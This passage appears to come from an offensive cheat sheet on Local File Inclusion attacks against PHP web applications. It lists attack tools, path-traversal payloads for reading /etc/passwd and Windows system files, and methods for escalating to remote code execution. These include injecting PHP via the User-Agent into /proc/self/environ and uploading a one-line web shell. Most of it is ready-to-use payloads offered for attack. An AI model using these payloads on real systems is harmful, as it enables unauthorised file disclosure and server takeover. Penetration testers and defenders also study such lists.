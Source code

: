 **Tools:**
- [Kadimus](https://github.com/P0cL4bs/Kadimus)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [fimap](https://github.com/kurobeats/fimap)

etc/passwd
etc/passwd%00
etc%2fpasswd
etc%2fpasswd%00
etc%5cpasswd
etc%5cpasswd%00
etc%c0%afpasswd
etc%c0%afpasswd%00
C:\boot.ini
C:\WINDOWS\win.ini
C:/apache2/log/access_log
C:/apache2/log/error.log
C:/apache2/log/error_log
C:/documents and settings/administrator/desktop/desktop.ini

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include `/proc/$PID/fd/$FD` where `$PID` is the PID of the process and `$FD` the filedescriptor. Both of them can be bruteforced.

```ps1
http://example.com/index.php?page=/proc/$PID/fd/$FD
```

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the `User-Agent` header, it will be reflected inside the `/proc/self/environ` file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```
## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```
## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.
